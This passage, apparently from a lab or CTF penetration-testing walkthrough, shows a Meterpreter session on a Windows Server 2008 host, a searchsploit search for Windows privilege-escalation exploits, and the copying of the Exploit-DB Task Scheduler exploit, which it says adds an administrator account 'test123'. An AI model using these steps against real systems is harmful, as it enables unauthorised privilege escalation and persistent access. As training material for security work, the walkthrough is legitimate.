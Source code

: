 ```
meterpreter > sysinfo 
Computer    : LIVDA
OS          : Windows NT LIVDA 6.0 build 6001 (Windows Server 2008 Standard Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >

```

According to the Exploit Database, this machine is vulnerable to a [Task Scheduler Privilege Escalation](http://www.exploit-db.com/exploits/15589/) exploit.

```
kali@kali:~$ searchsploit ""Privilege Escalation"" | uniq | grep -v metasploit | grep -i ""windows ""
Fortinet FortiClient 5.2.3 (Windows 10 x64 Creators) - Local Privilege E | exploits/windows_x86-64/local/45149.cpp
Fortinet FortiClient 5.2.3 (Windows 10 x64 Post-Anniversary) - Local Pri | exploits/windows_x86-64/local/41722.c
Fortinet FortiClient 5.2.3 (Windows 10 x64 Pre-Anniversary) - Local Priv | exploits/windows_x86-64/local/41721.c
Fortinet FortiClient 5.2.3 (Windows 10 x86) - Local Privilege Escalation | exploits/windows_x86/local/41705.cpp

...

Microsoft Windows - Task Scheduler Privilege Escalation                  | exploits/windows/local/15589.wsf

...

Windows - NtUserSetWindowFNID Win32k User Callback Privilege Escalation  | exploits/windows/local/47134.rb
Windows - Shell COM Server Registrar Local Privilege Escalation          | exploits/windows/local/47880.cc
XAMPP for Windows 1.6.3a - Local Privilege Escalation                    | exploits/windows/local/4325.php
```

### Task Scheduler Privilege Escalation Exploit

Let's copy the exploit file to a directory on our attack machine.

```
kali@kali:~$ file /usr/share/exploitdb/exploits/windows/local/15589.wsf
/usr/share/exploitdb/exploits/windows/local/15589.wsf: HTML document, ASCII text, with CRLF line terminators

kali@kali:~$ cp /usr/share/exploitdb/exploits/windows/local/15589.wsf .
```

This exploit creates a new user (`test123`) with a matching password (`test123`) and adds the user to the `Administrators` group:
